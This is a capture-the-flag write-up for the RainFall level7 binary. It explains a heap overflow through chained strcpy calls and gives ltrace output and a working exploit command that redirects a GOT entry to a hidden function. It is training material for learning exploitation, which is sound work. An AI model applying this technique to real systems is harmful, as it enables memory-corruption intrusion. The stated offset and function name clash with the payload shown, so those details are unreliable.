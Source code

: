 This time we have a binary that makes a bunch of malloc calls in the main function, as well as a fopen on the pass file.

There is a fgets call to load the contents of the file but there doesn't seem to be a way to print it.

There is a puts call right after, we might swap the pointer in it or we might try and call m that does print the pointer after fgets has been done

Strcpy is used, this will be our entrypoint.

The first strcpy can be used to overflow the heap and change the value stored for the second strcpy

```
level7@RainFall:~$ ltrace ./level7 aaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbbbbbb
__libc_start_main(0x8048521, 3, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                               = 0x0804a008
malloc(8)                                                                                               = 0x0804a018
malloc(8)                                                                                               = 0x0804a028
malloc(8)                                                                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaa")                                                          = 0x0804a018
strcpy(0x61616161, "bbbbbbbbbbbbbbbbbbbbbbbbbbbbb" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Our offset will be 56 + 4, now we can copy something to a destination in memory.
Since we need the fgets to work properly, that only leaves fgets which address is 0x08049928
and we need to pass the m address at 0x080484f4

```
level7@RainFall:~$ ./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```
